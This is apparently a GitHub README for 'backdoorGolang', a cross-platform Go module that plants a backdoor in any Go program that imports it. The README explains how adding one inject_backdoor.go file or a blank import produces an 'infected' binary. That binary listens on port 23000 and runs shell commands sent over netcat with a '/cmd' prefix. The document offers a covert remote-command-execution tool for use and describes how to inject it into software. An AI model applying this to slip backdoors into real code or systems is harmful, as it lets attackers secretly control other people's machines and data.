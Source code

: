 # backdoorGolang

[![Windows Build Status](https://ci.appveyor.com/api/projects/status/github/pilebones/backdoorGolang?svg=true&branch=master&passingText=Windows%20-%20OK&failingText=Windows%20-%20failed&pendingText=Windows%20-%20pending)](https://ci.appveyor.com/project/pilebones/backdoorGolang)
  
Backdoor with Golang (Cross-Plateform)

`/!\` Work in progress, not a stable release `/!\`

## Main goal

Forked from pilebones/backdoorGolang.
Changed from CLI interface to a golang module.
User should just import the module:

`import _ "github.com/guimagalhaes/backdoorGolang/core/socket/server"`

A fork of my own project named : "pilebones/backdoorBash" (see: https://github.com/pilebones/backdoorBash) but instead of using Bash as programming language (Unix-like only) this new one will work on Windows too by using a Golang API (cross-plateform) developed from scratch (as much as possible).

## Requirements

- Golang SDK : Compiler and tools for the Go programming language from Google (see: https://golang.org/doc/install)

From Arch Linux :

```bash
(sudo) pacman -S community/go
```

From Debian :

```bash
(sudo) apt-get install golang-go
```

From SUSE :

```bash
(sudo) zypper install go1.16
```

From CentOS 7/8 and RedHat 7/8:

```
See Golang SDK link above.
```

## Installation

```bash
go get github.com/guimagalhaes/backdoorGolang@v0.2.2
```

## Clone the project
To do the following experiments, clone the project:

```
mkdir $GOPATH/src/github.com/guimagalhaes/
cd $GOPATH/src/github.com/guimagalhaes/
git clone github.com/guimagalhaes/backdoorGolangtests
```

## Run test example
Go to `$GOPATH/src/github.com/guimagalhaes/backdoorGolangtests/simple_example` folder, remove the inject_backdoor.go source file and build it:

`go build`

Execute the binary './simple_example' and see that only a simple HTTP server is available:

`curl http://localhost:2020/hello`

Restore the inject_backdoor.go file and build it again:

```
git checkout inject_backdoor.go
go build
```

Execute the new binary ./simple_example and see that besides the simple HTTP server, the backdoor is now injected to the binary.
Note the inject_backdoor.go file is the only file that must be injected to a Golang source code to inject the backdoor to the software.

Follow the next session to see how to test the infected version of the binary.

## Client

It is used the 'localhost:23000' address hardcoded for now. The intention is to have network interface detection and auto selection of available network port range.
Use netcat:

```bash
netcat localhost 23000
```

Then execute a sequence of shell commands using '/cmd ' as prefix:

```
/cmd ls -l
/cmd ss -natp
...
```

To exit the netcat session:

```
/quit
<enter>
<enter>
```
